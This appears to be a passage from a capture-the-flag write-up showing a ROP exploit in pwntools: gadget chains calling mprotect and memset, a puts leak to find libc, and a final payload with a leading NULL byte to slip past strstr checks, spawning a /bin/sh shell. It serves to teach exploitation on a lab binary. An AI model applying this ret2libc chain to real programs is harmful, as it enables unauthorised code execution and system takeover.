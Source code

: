 This exploit starts out the same as the _boring_ version, however the payload does start with a NULL to bypass `strstr` checks.

```python
# 0x4008e1: pop rsi; pop r15; ret;
payload += p64(0x4008e1)
payload += p64(1)
payload += p64(0)
# 0x400786: mov rdx, r15; nop; pop rbp; ret;
payload += p64(0x400786)
payload += p64(0xdeadbeef)
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(0x601099)
payload += p64(binary.plt.mprotect)
```

This part of the payload will call `mprotect` and set the global `DAT_00601099` back to R/W.  As mentioned in the analysis section, the `pop r15` + the `mov rdx, r15` is used to set `rdx`.  There's an extra `pop rdp` that we do not need or care about so it's set to the garbage value `0xdeadbeef`.

Since we're calling `mprotect` right after calling `mprotect` (see source, our ROP chain starts right after `mprotect`), then we get a lot for free and could use most of the registers as it, however this code is more reusable.

> At times you have no choice to live off the land, i.e. there's no ROP gadget to set the value that you need.

```python
# 0x4008e1: pop rsi; pop r15; ret;
payload += p64(0x4008e1)
payload += p64(0)
payload += p64(1)
# 0x400786: mov rdx, r15; nop; pop rbp; ret;
payload += p64(0x400786)
payload += p64(0xdeadbeef)
payload += p64(pop_rdi)
payload += p64(0x601099)
payload += p64(binary.plt.memset)
```

Not dissimilar to `mprotect`, but this time a call to `memset` to reset global `DAT_00601099` back to zero.

```python
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('Christmas?\n', payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = b'\0'
payload += (0x48 - len(payload)) * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('Christmas?\n', payload)
p.interactive()
```
